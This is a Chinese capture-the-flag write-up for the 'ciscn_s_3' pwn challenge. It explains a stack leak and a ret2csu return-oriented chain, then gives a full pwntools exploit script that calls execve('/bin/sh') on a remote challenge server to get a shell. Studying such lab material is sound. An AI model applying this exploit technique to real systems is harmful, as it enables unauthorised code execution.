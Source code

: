 函数的逻辑是通过read系统调用输入字符串后再通过write系统调用输出所输入的字符串

还有一个gadgets函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gho3l1ew1xj31n80i6415.jpg)

0x3b==59，是execve的系统调用号，加上两个系统调用，很明显提示可以通过系统调用`execve("/bin/sh",0,0)`来getshell

但是需要三个参数，就需要利用ret2csu的方法，相关知识[ctf-wiki](https://wiki.x10sec.org/pwn/stackoverflow/medium_rop/)上有很好的讲解，这里不再啰嗦

就是利用csu函数中这几个gadgets从而将参数传递到寄存器中

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gho3sdcurpj31na0igadf.jpg)

然而获取字符串"/bin/sh"的地址是一个问题

观察栈中的情况发现此时rbp与rsp重合，只要覆盖rbp就能控制执行流，rbp后有一处保存栈地址，所以可以通过write系统调用泄露栈地址，而rbp之上的16字节可以任意填充

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gho48hmzbfj313e0u0dj9.jpg)

就可以将需要的字符串写到栈中，通过泄露的栈地址计算偏移得到字符串的地址

可以把`ret`的地址放到第二个八字节处，绕过`call qword ptr [r12+rbx*8]`

exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
context.log_level='debug'

elf = ELF('./ciscn_s_3')
#p = process('./ciscn_s_3')
p = remote("node3.buuoj.cn", 25564)
#gdb.attach(p,'b *main')
libc=ELF("./libc-2.27.so")

poprdi=0x4005a3
movrax=0x4004E2
read=0x4004F1
syscall=0x400517

payload = 'a'*0x10+p64(read)+'a'*7
p.sendline(payload)
p.recv(0x20)
stack=u64(p.recv(6).ljust(8,'\x00'))
stack-=0x110
print hex(stack)

pop6=0x40059A
mov3=0x400580
ret=0x4005A4

payload = '/bin/sh\x00'+p64(ret)+p64(pop6)
payload += p64(0)+p64(1)+p64(stack+8)+p64(0)+p64(0)+p64(stack)
payload += p64(mov3)+p64(0)*7+p64(poprdi)+p64(stack)+p64(movrax)+p64(syscall)
p.sendline(payload)

p.interactive()

```
